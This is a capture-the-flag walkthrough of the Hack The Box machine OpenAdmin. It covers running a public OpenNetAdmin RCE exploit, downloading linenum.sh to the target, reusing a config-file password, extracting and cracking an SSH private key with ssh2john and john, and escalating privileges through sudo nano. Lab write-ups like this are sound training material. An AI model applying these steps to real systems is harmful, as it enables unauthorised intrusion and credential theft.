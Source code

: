 ```yaml
---
description: https://app.hackthebox.com/machines/222
---
```


# 🏸 OpenAdmin

<figure><img src="../../.gitbook/assets/image (474).png" alt=""><figcaption></figcaption></figure>

#### There are three directories on the webserver. `/artwork`, `sierra`, and what else?

<figure><img src="../../.gitbook/assets/image (475).png" alt=""><figcaption></figcaption></figure>

#### On the page at `/music`, there is a link that doesn't point to another link on `/music`, but rather an administration tool. What is the relative path?

On the /login, we get access to a "control panel"

<figure><img src="../../.gitbook/assets/image (476).png" alt=""><figcaption></figcaption></figure>

#### What is the version number of OpenNetAdmin that runs on the remote machine?

<figure><img src="../../.gitbook/assets/image (477).png" alt=""><figcaption></figcaption></figure>

#### If you exploit this instance to get code execution on the machine, in the context of what user is the execution happening?

Found this repo on the OpenNetAdmin 18.1.1 -> [https://github.com/amriunix/ona-rce/blob/master/ona-proof.png](https://github.com/amriunix/ona-rce/blob/master/ona-proof.png)

just cloned it and looked at the syntax&#x20;

<figure><img src="../../.gitbook/assets/image (478).png" alt=""><figcaption><p>Easy W</p></figcaption></figure>

#### What's the password of the user, jimmy?

First, we download linenum.sh and rename it with lower cases&#x20;

then on our local machine, we open a local python server&#x20;

then on our shell we `wget [local.IP]:port/linenum.sh`

<figure><img src="../../.gitbook/assets/image (479).png" alt=""><figcaption></figcaption></figure>

don't forget to "chmod +x linenum.sh" before running it

We unfortunately don't find anything, so let's enum manually

after a bit of enumeration, we wind in the /local/config file ->

<figure><img src="../../.gitbook/assets/image (480).png" alt=""><figcaption></figcaption></figure>

interesting passwd occurrence, let's try to abuse it&#x20;

open another terminal and try to connect to jimmy utilizing ssh ->

<figure><img src="../../.gitbook/assets/image (481).png" alt=""><figcaption></figcaption></figure>

some more enumeration later, we find a main.php file with a password inside jimmy's session:

<figure><img src="../../.gitbook/assets/image (482).png" alt=""><figcaption></figcaption></figure>

let's try to connect to the other user that's on this machine:

<figure><img src="../../.gitbook/assets/image (483).png" alt=""><figcaption></figcaption></figure>

While doing a `cat main.php` -> we can see this output:

<figure><img src="../../.gitbook/assets/image (485).png" alt=""><figcaption></figcaption></figure>

We see that there is a `shell_exec` command that executes the shell command `cat /home/joanna/.ssh/id_rsa`. This command retrieves the content of the file `/home/joanna/.ssh/id_rsa`, which contains the RSA private key.

Let's try a simple curl:

<figure><img src="../../.gitbook/assets/image (486).png" alt=""><figcaption></figcaption></figure>

weird, let's try to see what's happening in the background ->

<figure><img src="../../.gitbook/assets/image (484).png" alt=""><figcaption></figcaption></figure>

we can see some things are listening on the backend, let's try via those ports

the 3306 did not work, but ->

<figure><img src="../../.gitbook/assets/image (487).png" alt=""><figcaption></figcaption></figure>

That's a very nice find, let's continue&#x20;

copy and paste the key on your local machine in a sshkey file, then download ssh2john [https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)

make the file executable with a chmod +x and then:&#x20;

```
python ssh2john.py rsakey >output
```

<figure><img src="../../.gitbook/assets/image (488).png" alt=""><figcaption></figcaption></figure>

and now let's try to brute force this ssh key ->

```
john --wordlist=/usr/share/wordlists/rockyou.txt output
```

<figure><img src="../../.gitbook/assets/image (489).png" alt=""><figcaption></figcaption></figure>

Massive W here boys -> let's get onto the next step

so now we know the passphrase for the ssh key is "bloodninjas"

set chmod 600 to the rsakey file, or it will not let you use it&#x20;

then&#x20;

```
sudo ssh -i rsakey joanna@10.129.208.136
```

<figure><img src="../../.gitbook/assets/image (490).png" alt=""><figcaption></figcaption></figure>

First Privesc step of this user will be the famous "sudo -l" command

<figure><img src="../../.gitbook/assets/image (491).png" alt=""><figcaption></figcaption></figure>

We then&#x20;

```
sudo /bin/nano /opt/priv
```

then, we CRTL+R

<figure><img src="../../.gitbook/assets/image (492).png" alt=""><figcaption></figcaption></figure>

and we get the result:

<figure><img src="../../.gitbook/assets/image (493).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (494).png" alt=""><figcaption></figcaption></figure>
